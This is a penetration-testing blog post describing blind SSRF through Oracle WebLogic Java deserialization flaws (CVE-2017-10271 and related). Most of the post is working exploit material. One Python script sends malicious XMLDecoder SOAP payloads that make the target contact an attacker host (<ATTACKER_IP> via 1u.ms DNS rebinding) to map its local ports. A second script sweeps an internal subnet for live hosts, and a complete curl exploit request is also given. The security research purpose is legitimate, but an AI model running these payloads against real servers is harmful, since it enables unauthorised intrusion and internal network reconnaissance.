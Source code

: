 ```yaml
---
layout: post
title: "Blind SSRF with Oracle WebLogic Deserialization"
date: 2020-09-26 22:00:00 +0300
author: snovvcrash
tags: [external-pentest, oracle, weblogic, java-deserialization, bind-ssrf, dns-rebinding, python]
---
```


A way to get an impact from exploiting Oracle WebLogic Server Java deserialization vulnerabilities (CVE-2017-3506, CVE-2017-10271, CVE-2019-2725, CVE-2019-2729, etc.) without triggering RCE through an SSRF attack.

<!--cut-->

![banner.png](/assets/images/blind-ssrf-with-oracle-weblogic-deserialization/banner.png)
{:.center-image}

* TOC
{:toc}

## Prologue

If you have discovered a running instance of Oracle WebLogic Server (>= 12.2.1.3) that is vulnerable to a Java deserialization attack during a pentest engagement but firing up RCE directly is not acceptable for you for some reason, then there is an alternative way to show impact to the Customer with an SSRF attack.

This type of vulnerabilities is usually exploited via deserialization of the `java.lang.ProcessBuilder` class to achieve command execution at the victim's host. Another class that can be successfully deserialized with a malicious SOAP request is `java.net.URL` which tries to interact with the provided URL. This attack scenario is implemented in [this](https://github.com/kkirsche/CVE-2017-10271) CVE-2017-10271 checker, for example. We can combine this trick with a blind SSRF attack to scan local ports listening on the target machine as well as discover new hosts within target's local network.

## Local Port Scan

### Python Simple HTTP Server

I built the following Python script and looped it through every TCP port at victim's localhost.

The script is mainly based on the [1u.ms](http://1u.ms/) service for DNS rebinding: it brings up a simple HTTP server on the attacker's box and then sends a malicious SOAP request to the target with `http://make-127.0.0.1-and-<ATTACKER_IP>rr.1u.ms:<PORT>` as a payload. If the target host **does not** have provided `<PORT>` opened, then DNS rebinding will be triggered and I will see that the response from victim came back right to my host (because the DNS query could not be resolved to victim's `127.0.0.1:<PORT>`). If the target host **does** have this `<PORT>` opened, then DNS rebinding will not be triggered and I will not see a response on my box which means victim's machine successfully resolved this DNS query to its localhost at the first place.

```
$ for port in `seq 1 65535`; do sudo python3 -u ssrf-port-scan.py $port 2>&1 | tee -a ports.log; done
```

```python
#!/usr/bin/env python3

import sys
import urllib3
from threading import Thread
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer

import requests

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


class HTTPServerInThread(Thread):

	def __init__(self, address, port):
		super().__init__()
		self.address = address
		self.port = port
		self.httpd = TCPServer((address, port), SimpleHTTPRequestHandler)

	def run(self):
		#print(f'[*] Serving HTTP on {self.address} port {self.port} (http://{self.address}:{self.port}/) ...')
		self.httpd.serve_forever()


class Default(dict):

	def __missing__(self, key):
		return '{' + key + '}'


if __name__ == '__main__':
	port = int(sys.argv[1])

	headers = {'Content-Type': 'text/xml;charset=UTF-8'}
	data = f"""<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java version="1.8" class="java.beans.XMLDecoder">
        <void id="url" class="java.net.URL">
          <string>http://make-127.0.0.1-and-<ATTACKER_IP>rr.1u.ms:{port}</string>
        </void>
        <void idref="url">
          <void id="stream" method = "openStream" />
        </void>
      </java>
    </work:WorkContext>
    </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
"""

	server = HTTPServerInThread(address='0.0.0.0', port=port)
	server.daemon = True
	server.start()

	print(port)
	resp = requests.post('http://<TARGET_IP>/wls-wsat/CoordinatorPortType', headers=headers, data=data, verify=False)
	if resp.status_code != 500:
		print(f'[?] Status code for port {port} is {resp.status_code}')
```

Here is a PoC request that validates that the default WebLogic Server 7001/TCP port is listened on victim's 127.0.0.1:

[![burp-poc-7001.png](/assets/images/blind-ssrf-with-oracle-weblogic-deserialization/burp-poc-7001.png)](/assets/images/blind-ssrf-with-oracle-weblogic-deserialization/burp-poc-7001.png)
{:.center-image}

### tcpdump

An easier way to validate status of the remote port is to use tcpdump to monitor victim's responses:

```
$ sudo tcpdump -n -i eth0 -A -s0 'src <TARGET_IP> and tcp'
$ curl -i -s -k -X $'POST' \
    -H $'Host: <TARGET_IP>' \
    -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36' \
    -H $'Accept-Encoding: gzip, deflate' -H $'Accept: */*' -H $'Connection: close' -H $'Content-Type: text/xml;charset=UTF-8' -H $'Content-Length: 574' \
    --data-binary $'<soapenv:Envelope xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\">\x0d\x0a  <soapenv:Header>\x0d\x0a    <work:WorkContext xmlns:work=\"http://bea.com/2004/06/soap/workarea/\">\x0d\x0a      <java version=\"1.8\" class=\"java.beans.XMLDecoder\">\x0d\x0a        <void id=\"url\" class=\"java.net.URL\">\x0d\x0a          <string>http://make-127.0.0.1-and-<ATTACKER_IP>rr.1u.ms:7001</string>\x0d\x0a        </void>\x0d\x0a        <void idref=\"url\">\x0d\x0a          <void id=\"stream\" method = \"openStream\" />\x0d\x0a        </void>\x0d\x0a      </java>\x0d\x0a    </work:WorkContext>\x0d\x0a    </soapenv:Header>\x0d\x0a  <soapenv:Body/>\x0d\x0a</soapenv:Envelope>' \
    $'http://<TARGET_IP>/wls-wsat/CoordinatorPortType'
```

## Host Discovery

A similar approach can be used to discover live hosts within victim's local network. This attack is even more blind because you should guess a network range first as well as make a guess which port is definitely opened on a testing machine. I chose the 88 port to discover Kerberos KDC service on domain controllers within `192.168.10.0/24` network as an example. I do not use DNS rebinding here but instead look for request timeout events to differentiate live hosts:

```python
#!/usr/bin/env python3

import urllib3
from ipaddress import IPv4Network

import requests

if __name__ == '__main__':
        urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
        headers = {'Content-Type': 'text/xml;charset=UTF-8'}

        port = 88
        for ip in (str(i) for i in IPv4Network('192.168.10.0/24')):
                data = f"""<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java version="1.8" class="java.beans.XMLDecoder">
        <void id="url" class="java.net.URL">
          <string>http://{ip}:{port}</string>
        </void>
        <void idref="url">
          <void id="stream" method="openStream" />
        </void>
      </java>
    </work:WorkContext>
    </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
"""

                try:
                        resp = requests.post('http://<TARGET_IP>/wls-wsat/CoordinatorPortType', headers=headers, data=data, verify=False, timeout=4)
                except requests.Timeout:
                    print(f'[-] {ip}:{port}')
                else:
                    print(f'[+] {ip}:{port}')
```

```
$ python3 -u ssrf-host-discovery.py | tee -a hosts.log
[-] 192.168.10.0:88
[-] 192.168.10.1:88
[-] 192.168.10.2:88
[-] 192.168.10.3:88
[-] 192.168.10.4:88
[-] 192.168.10.5:88
[-] 192.168.10.6:88
[-] 192.168.10.7:88
[-] 192.168.10.8:88
[-] 192.168.10.9:88
[+] 192.168.10.10:88
[-] 192.168.10.11:88
[-] 192.168.10.12:88
[-] 192.168.10.13:88
```

## Refs

* [Плохая логика. Выполняем произвольный код в популярном сервере приложений Oracle WebLogic — «Хакер»](https://xakep.ru/2018/01/18/oracle-weblogic-exploit/)
* [Подделка серверных запросов, эксплуатация Blind SSRF / Взрывной блог](https://bo0om.ru/blind-ssrf)
